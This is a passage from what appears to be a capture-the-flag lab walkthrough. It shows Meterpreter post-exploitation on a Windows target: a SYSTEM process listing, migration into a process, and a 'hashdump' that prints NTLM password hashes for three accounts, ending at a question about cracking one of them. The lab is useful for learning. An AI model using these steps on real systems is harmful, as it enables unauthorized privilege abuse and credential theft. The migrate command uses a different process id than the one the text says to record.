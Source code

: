 > 2368  2880  cmd.exe               x86   0        NT AUTHORITY\SYSTEM           C:\Windows\SysWOW64\cmd.exe
> 
> 2516  564   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\conhost.exe
> 
> 2524  708   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
> 
> 2584  708   vds.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\vds.exe
> 
> 2624  708   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\sppsvc.exe
> 
> 2752  708   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\SearchIndexer.exe
> 
> 2880  2208  powershell.exe        x86   0        NT AUTHORITY\SYSTEM           C:\Windows\syswow64\WindowsPowerShell\v1.0\powershell.exe
> 
> 3068  708   TrustedInstaller.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Windows\servicing\TrustedInstaller.exe

=> 2880  2208  powershell.exe        x86   0        NT AUTHORITY\SYSTEM           C:\Windows\syswow64\WindowsPowerShell\v1.0\powershell.exe

#### 8) Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step.

`meterpreter > migrate 2208`

> [*] Migration completed successfully.

  
### Task 4 :

#### 1) Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user ?

`meterpreter > hashdump`

> Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
>   
> Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
>   
> Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

=> Jon

#### 2) Copy this password hash to a file and research how to crack it. What is the cracked password ?
